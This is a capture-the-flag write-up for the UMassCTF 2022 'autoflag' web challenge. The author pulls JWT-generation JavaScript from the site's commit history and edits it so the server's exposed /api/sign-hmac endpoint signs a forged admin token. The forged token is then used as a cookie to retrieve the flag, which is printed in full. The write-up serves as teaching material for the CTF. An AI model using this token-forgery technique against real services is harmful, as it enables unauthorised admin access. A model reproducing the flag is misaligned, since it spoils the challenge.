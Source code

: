 # UMassCTF 2022 - autoflag
- Write-Up Author: Wendy \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag: UMASS{W0W_TH1$_1$_4_C00L_FL4G_BRUH!_69420}

## **Question:**
autoflag

>Challenge description

My friend made this website that automatically serves you a flag. He says he patched it recently and would pay me 100 v-bucks if I could get his super secret flag. Please help me out!!!

http://34.148.103.218:4829

## Write up

First, there are two buttons on the website. One is "give me a flag!", another one is "Checkout the AutoFlag API".

![img](./img/1.png)

When I click "give me a flag!", it's just fake flag. Then I try to tamper the JWT cookies, it does not work.

Therefore, I check out the AutoFlag API to see any hints from Github. Great, I discover the JWT token generation function under commit history.

![img](./img/2.png)

```
 //AUTOFLAG API V.1 : AUTOMATICALLY AUTHENTICATE USERS THEN REDIRECT TO FLAG
function base64url(source) {
    encodedSource = btoa(source);
    while (encodedSource.endsWith('=')) {
        encodedSource = encodedSource.substring(0, encodedSource.length - 1)
    }
    encodedSource = encodeURI(encodedSource)
    console.log(encodedSource)
    return encodedSource;
}

function getSignedHMAC(unsignedToken) {
    return new Promise((resolve, reject) => {
        var xhr = new XMLHttpRequest()
        xhr.open("POST", '/api/sign-hmac', true)

        //Send the proper header information along with the request
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")

        xhr.onreadystatechange = function () { // Call a function when the state changes.
            if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
                resolve(xhr.responseText)
            }
        }
        xhr.send(`message=${unsignedToken}`)
    })
}

async function signToken() {
    header = `{"typ":"JWT","alg":"HS256"}`
    data = `{"fresh":false,"iat":1648889857,"jti":"367baae6-f30c-403b-8654-2e9412433d14","type":"access","sub":"admin","nbf":1648889857,"exp":1648890757}`
    unsignedToken = base64url(header) + "." + base64url(data)
    console.log(unsignedToken)
    let signature = await getSignedHMAC(unsignedToken)
    signature = signature.replaceAll('+', '-').replaceAll('=', '')
    let JWT = unsignedToken + "." + signature
    console.log(JWT)
}

signToken()

```

I update the highlighted part as below.

![img](./img/3.png)

After that, I access http://34.148.103.218:4829/flag and run the JavaScript code on browser console.

![img](./img/4.png)

Finally, I use the JWT token output as the cookies and refresh the http://34.148.103.218:4829/flag. I get the flag!

![img](./img/5.png)

> UMASS{W0W_TH1$_1$_4_C00L_FL4G_BRUH!_69420}
